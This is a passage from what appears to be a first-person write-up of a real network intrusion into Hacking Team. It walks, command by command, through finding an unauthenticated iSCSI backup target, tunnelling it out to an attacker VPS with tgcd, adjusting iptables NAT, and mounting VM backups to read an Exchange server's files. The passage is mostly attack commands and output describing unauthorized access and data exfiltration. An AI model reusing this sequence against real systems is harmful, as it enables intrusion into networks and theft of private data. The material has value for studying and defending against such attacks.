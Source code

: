 Nmap scan report for synology-backup.hackingteam.local (192.168.200.72)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:synology-backup.name
|     Address: 10.0.1.72:3260,0
|     Address: 192.168.200.72:3260,0
|_    Authentication: No authentication required

iSCSI needs a kernel module, and it would've been difficult to compile it for
the embedded system. I forwarded the port so that I could mount it from a VPS:

VPS: tgcd -L -p 3260 -q 42838
Embedded system: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1

Now iSCSI finds the name iqn.2000-01.com.synology but has problems mounting it
because it thinks its IP is 192.168.200.72 instead of 127.0.0.1

The way I solved it was:
iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1

And now, after:
iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login

...the device file appears! We mount it:
vmfs-fuse -o ro /dev/sdb1 /mnt/tmp

and find backups of various virtual machines. The Exchange server seemed like
the most interesting. It was too big too download, but it was possible to
mount it remotely to look for interesting files:
$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT

so the offset is 2048 * 512 = 1048576
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/

now in /mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14 172311
we find the hard disk of the VM, and mount it:
vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1

...and finally we've unpacked the Russian doll and can see all the files from
the old Exchange server in /mnt/part1

[1] https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf


--[ 10 - From backups to domain admin ]-----------------------------------------
